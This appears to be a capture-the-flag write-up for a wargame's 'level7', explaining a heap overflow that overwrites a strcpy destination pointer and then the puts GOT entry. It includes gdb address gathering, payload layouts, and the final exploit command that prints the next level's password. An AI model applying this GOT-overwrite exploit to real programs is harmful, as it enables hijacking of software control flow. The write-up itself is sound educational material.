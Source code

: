 ## GOT some Heap overlow ? (level7)

This level's [binary](source.c) requires two arguments, otherwise it segfaults.
Then, upon this argument's processing it prints "~~".

This time, four mallocs are done in a row, all of 8 bytes. Two of them will be
used as destinations for strcpy calls. The first one from argv[1] and the second
one from argv[2] \(hence the segfaults when providing less than two arguments).
This means that we have two places to overflow from. The first target is a fgets
call just after a fopen of the next level's password file. The destination
buffer is _c_ which is a global pointer set to NULL as it is not explicitly
initialized. We need to set _c_ to a value we can read from so that the password
is stored somewhere we can access. Then we actually need to access the thing.
For this, there is an uncalled function _m_ which contains a printf call that
prints _c_ as a string. So we must execute a GOT overwrite for the puts call
just after the fgets (the one that prints "~~"). This should lead us to the
password.

First let's get all the addresses we need:

```shell
# run gdb on the binary
gdb ./level7
# get c's address
(gdb) i addr c
Symbol "c" is at 0x8049960 in a file compiled without debugging.
# get m's address
(gdb) i addr m
Symbol "m" is at 0x80484f4 in a file compiled without debugging.
# get puts' got address
(gdb) disass main
...
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
...
(gdb) x/3i 0x8048400
   0x8048400 <puts@plt>:        jmp    *0x8049928 # puts' got address
   0x8048406 <puts@plt+6>:      push   $0x28
   0x804840b <puts@plt+11>:     jmp    0x80483a0
# then break after each malloc call to get the allocations addresses
(gdb) b *0x08048536
Breakpoint 1 at 0x8048536
(gdb) b *0x08048550
Breakpoint 2 at 0x8048550
(gdb) b *0x08048565
Breakpoint 3 at 0x8048565
(gdb) b *0x0804857f
Breakpoint 4 at 0x804857f
(gdb) run aaaa bbbb
Starting program: /home/user/level7/level7 aaaa bbbb

Breakpoint 1, 0x08048536 in main ()
(gdb) x/1x $eax
0x804a008:      0x00000000
(gdb) c
Continuing.

Breakpoint 2, 0x08048550 in main ()
(gdb) x/1x $eax
0x804a018:      0x00000000
(gdb) c
Continuing.

Breakpoint 3, 0x08048565 in main ()
(gdb) x/1x $eax
0x804a028:      0x00000000
(gdb) c
Continuing.

Breakpoint 4, 0x0804857f in main ()
(gdb) x/1x $eax
0x804a038:      0x00000000
```

Results:

| c         | m         | puts' got | malloc 1  | malloc 2  | malloc 3  | malloc 4  |
|-----------|-----------|-----------|-----------|-----------|-----------|-----------|
| 0x8049960 | 0x80484f4 | 0x8049928 | 0x804a008 | 0x804a018 | 0x804a028 | 0x804a038 |

Of course all the allocated memory is way after c or puts' got location in the
program's memory. Then what we need to do is use the first strcpy call to
overwrite the second's call destination address. This way we can start writing
from where we want. Since we must write in put's got and in _c_ and that put's
got address is before _c_ it would make sense to start from there.

What we must do (value --> destination):
* _puts' got_ --> _malloc 3_ + 4 bytes
* _m_ --> _puts' got_
* some valid memory zone (_malloc 1_) --> _c_

The first strcpy call has _malloc 2_ for destination. The second one starts at
the address pointed to at _malloc 3_ + 4 bytes. It's _malloc 4_ but it can be
overwritten by the first strcpy. _malloc 3_ + 4 bytes is at 0x804a02c. So here
is the first payload:

| padding bytes (20) | puts' got (4) |
|--------------------|---------------|
| "a" * 20           | 0x8049928     |


The second strcpy payload will just contain _m_'s address to replace puts' got:

| m's address (4) |
|-----------------|
| 0x80484f4       |

> There is actually no need to change c's value. It looks like it is in fact 
> initialized when level7 is running out of gdb.

So here is the command to execute for this level:

```shell
./level7 $(python -c 'print "a" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1657074326
```
